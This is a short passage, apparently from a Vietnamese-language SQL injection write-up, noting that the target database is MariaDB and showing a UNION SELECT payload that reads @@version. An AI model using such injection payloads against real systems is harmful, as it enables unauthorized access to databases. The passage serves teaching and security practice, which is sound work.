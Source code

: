     ![6.png](img/6.png)
    

Như mọi bài chúng ta sẽ check xem database version và nó là version của MariaDB.

```sql
union select 1,2,3,4,@@version,6,7 -- 
```
